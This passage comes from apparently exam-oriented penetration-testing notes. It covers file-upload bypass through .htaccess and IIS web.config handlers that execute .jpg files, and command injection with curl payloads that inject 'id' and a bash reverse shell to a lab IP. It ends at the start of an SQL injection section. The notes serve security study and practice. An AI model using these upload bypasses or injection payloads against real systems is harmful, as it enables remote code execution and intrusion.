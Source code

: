   ```apache
  AddType application/x-httpd-php .jpg
  ```
* **`web.config` on IIS (Windows):** upload:

  ```xml
  <configuration>
    <system.webServer>
      <handlers>
        <add name="jpg_aspx" path="*.jpg" verb="*" type="System.Web.UI.Page" resourceType="Unspecified"/>
      </handlers>
    </system.webServer>
  </configuration>
  ```

⚠️ **Mistakes & fixes:**

* ❌ Believing “upload successful” means code execution works.
  ✅ Fix: My notes tell you to **find where the file landed** using Gobuster after upload.
* ❌ Forgetting to test alternate extensions.
  ✅ Fix: I listed `.php.jpg`, `.asp;.jpg`, `.old` etc. (matches exam-style scenarios).

---

## 5) Command Injection (CMDi)

**What it is:**
The app runs system commands using your input (like `ping=127.0.0.1`). If you can add extra shell syntax (`;`, `&&`, `|`), you can run arbitrary commands.

**Tests:**

```bash
# Check with id
curl -s "http://10.10.10.56/ping?host=127.0.0.1;id"

# Reverse shell attempt
curl -s "http://10.10.10.56/ping?host=127.0.0.1;bash -i >& /dev/tcp/10.10.14.5/443 0>&1"
```

⚠️ **Mistake:** Only testing `id` and moving on.
✅ Fix: My commands include **direct RS payload** and multiple separators (e.g., `;`, `|`, `` `cmd` ``).

---

## 6) SQL Injection (SQLi)

**What it is:**
When a website takes your input and plugs it into a database query **without filtering**, you can control the query.

**Goal:**

* Bypass logins.
* Dump usernames/passwords.
* Maybe enable command execution (MSSQL `xp_cmdshell`).
